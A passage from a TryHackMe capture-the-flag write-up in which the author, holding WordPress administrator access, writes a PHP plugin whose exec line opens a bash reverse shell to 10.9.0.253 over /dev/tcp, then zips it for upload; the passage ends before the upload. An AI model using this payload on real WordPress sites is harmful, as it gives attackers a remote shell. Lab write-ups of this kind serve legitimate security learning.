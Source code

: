 ![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Different-CTF/images/Pasted%20image%2020230131144944.png)

Nice! We're in, and this user has administrator privilege!

After getting administrator level access in WordPress, we can try to **upload a reverse shell plugin** to gain initial foothold.

**To do so, we can first write a reverse shell plugin:**
```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Different-CTF)-[2023.01.31|14:58:37(HKT)]
└> vi revshell.php                        
<?php

/**
* Plugin Name: WordPress Reverse Shell
* Author: siunam
*/
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.9.0.253/443 0>&1'")
?>

┌[siunam♥earth]-(~/ctf/thm/ctf/Different-CTF)-[2023.01.31|14:58:43(HKT)]
└> zip revshell.zip revshell.php          
  adding: revshell.php (deflated 6%)
```

**Then upload it:**

